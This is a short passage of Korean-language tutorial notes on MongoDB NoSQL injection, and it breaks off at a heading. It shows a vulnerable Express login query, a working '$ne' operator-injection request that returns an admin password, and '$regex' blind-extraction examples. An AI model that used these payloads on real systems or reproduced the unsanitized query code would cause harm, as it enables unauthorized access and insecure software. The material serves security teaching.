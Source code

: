 MongoDB 컬렉션에서 `uid`와 `upw`로 사용자를 찾는 코드:

```javascript
const express = require('express');
const app = express();
const mongoose = require('mongoose');
const db = mongoose.connection;
mongoose.connect('mongodb://localhost:27017/', { useNewUrlParser: true, useUnifiedTopology: true });

app.get('/query', function(req, res) {
  db.collection('user').find({
    uid: req.query.uid,
    upw: req.query.upw
  }).toArray(function(err, result) {
    if (err) throw err;
    res.send(result);
  });
});

app.listen(3000, () => console.log('app.listen'));
```

연산자 주입 예 (`$ne`)
```text
GET /query?uid[$ne]=a&upw[$ne]=a
=> [{"_id":"...","uid":"admin","upw":"secretpassword"}]
```

> 쿼리 스트링이 **객체/연산자로 변환**되면서 의도치 않은 조건이 생성될 수 있다.

---

# Blind NoSQL Injection

자주 활용되는 연산자(개념)

| Name | Description |
| --- | --- |
| `$expr` | 집계식을 쿼리에서 사용 |
| `$regex` | 정규식 일치 |
| `$text` | 텍스트 검색 |
| `$where` | JavaScript 표현식 평가(주의) |

문자 시작 패턴으로 탐색(`$regex`)

```javascript
db.user.find({ upw: { $regex: "^g" } })
// { "_id": ObjectId("..."), "uid": "guest", "upw": "guest" }
```

JavaScript 평가 (`$where`)
